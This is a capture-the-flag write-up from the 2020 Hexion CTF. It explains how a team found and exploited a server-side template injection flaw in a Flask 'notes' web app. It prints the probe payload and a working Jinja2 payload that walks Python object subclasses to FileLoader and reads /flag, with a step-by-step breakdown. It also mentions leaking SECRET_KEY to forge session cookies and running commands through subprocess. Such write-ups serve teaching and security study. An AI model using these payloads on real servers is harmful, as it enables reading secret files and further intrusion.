


# Notes

This task was part of the 'Web' category at the 2020 Hexion CTF (during 11-13 April 2020).
It was solved [The Maccabees](https://ctftime.org/team/60231) team.


## The challenge

The challenge description contained only a link to a website:

```
http://challenges1.hexionteam.com:2001
```

When viewing the website in the browser - we get a simple "notes" application, where you can:

* Fill the textbox and hit the "Create" button, which creates a new note.
* View all the notes created so far.
* Hit the "Reset" button, removing all existing notes.

Example for how that looks in the browser:

 **--->** 

In addition, in the received HTML page, there is a comment:

```html
<!-- DEPRECATED <script>
    $.getJSON("/notes", (res) => {
        res.forEach(o => {
            notesList.append(document.createTextNode(o));
        });
    });
</script> -->
```

This hints a hidden interface hidden under the "/notes" URI. And indeed, browsing to this interface shows us in a list (in a Python/JS formatting) of the current notes.
For example, browsing there for the current notes sends us the response:

```
['dsadsadsa', 'la la la']
```


Our first attempts were to inject some delimiter characters in order to try to fiddle with this formatting - none worked (trying to inset `, ", ', --, <, >, etc.).

 Another thing we discovered - if we remove the 'text=' parmater in the POST request that adds another note, and then browse to "/notes", it seems like we fill a new entry in the list with the `None` value:

```
[None]
```

This hints us that this is a python implementation (also obvious by the server being gunicorn - variation of Flask).


## The solution

After playing with it a lot, we figured out the solution is that this implementation is vulnerable to SSTI - **Server-Side Template Injection**, in Flask.

This class of vulnerabilities relies on the fact that Flask (among other web engines) renders "templates" of payloads with data from the environment (in this case - python). If this template, before rendering, is constructed using unsanitized user-input - we can modify the template in order to gain code execution on the server.

The easy way to check if implementation is vulnerable to SSTI is to input the data `{{7 * 7}}`, and see if it renders as `49` in some manner.

And indeed, inserting a note with these contents, and then browsing to `/notes`, we receive the response `['49']`.

From here, the main challenge is to write a python payload that will leak the flag, given the constraints. The main problem is that we can't `import` anything, and can't use builtins from the python environment.

Some good resources about SSTI:

* [SSTI in Flask/Jinja2](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) - good article explaining the bugclass + a walkthrough exploitation (which is very similar to our final exploit).
* [Cheatsheet - Flask & Jinja2 SSTI](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) - a nice cheatsheet for SSTI exploitation methods.

Notice that in both cases, the exact exploit details won't work as-is here - because difference in the environment, and differences between python2 and python3 (most example online are about python2, but we use python3).

Given this knowledge, constructing the final solution is easy. We will try to construct a solution that read a file from the server filesystem and shows us its content (this is under the assumption that the flag is in some predictable path, such as `/flag`). 

notes-web-emptyThe final solution looks like this - we can just paste the following string and add it as a note:

```
{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79]("/flag", "/flag").get_data("/flag") }}
```

Afterwards, we get the following result on `/notes`: 

```
['b'hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}\n'\r\n\r\n']
```

Which means the flag is `hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}`!

Simple explanation of the exploit, and the meaning of each part (each part can be evaluated separately for inspection):

1. `{{ config }}` - this is an object which Flask export to templates, containing the current instance configuration. This can also be useful in order to leak flask secret (in some CTF challenges - the flag is just saved as a configuration variable; also, the `SECRET_KEY` can be used in order to decrypt and forge Flask session cookies).
2. `{{ config.items() }}` - because `config` is a key-value dict, we just take the values.
3. `{{ config.items()[4] }}` - just take some random item from the configuration (which derives from `object`).
4. `{{ config.items()[4].__class__ }}` - the class of the object (in our case - `<class 'jinja2.runtime.Undefined'>`).
5. `{{ config.items()[4].__class__.__mro__ }}` - the MRO (method resolution object) of the class. This is basically an iterator of all superclasses of the class.
6. `{{ config.items()[4].__class__.__mro__[1] }}` - we just took the last class in the MRO - this is just `<class 'object'>`.
7. `{{ config.items()[4].__class__.__mro__[1].__subclasses__() }}` - these are all the available subclasses of the class `object` (which obviously should be all available classes).
8. `{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79] }}` - this is the class `<class '_frozen_importlib_external.FileLoader'>'`. We will abuse it in order to read the content of a file on the filesystem.
9. `{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79]("/flag", "/flag")` - this is a construction of an instance of the `FileLoader` object (the two parameters doesn't really seem to matter - but them as the flag path just in case).
10. `{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79]("/flag", "/flag").get_data("/flag") }}` - this calls the `get_data` method of the `FileLoader` object we created, in order to read the data from the flag file (located in `/flag` on the server machine).

(Another option we had was to use `subprocess.Popen` or something similar in order to run arbitrary code on the machine - but it was not needed here, as reading a file was enough in order to get the flag).

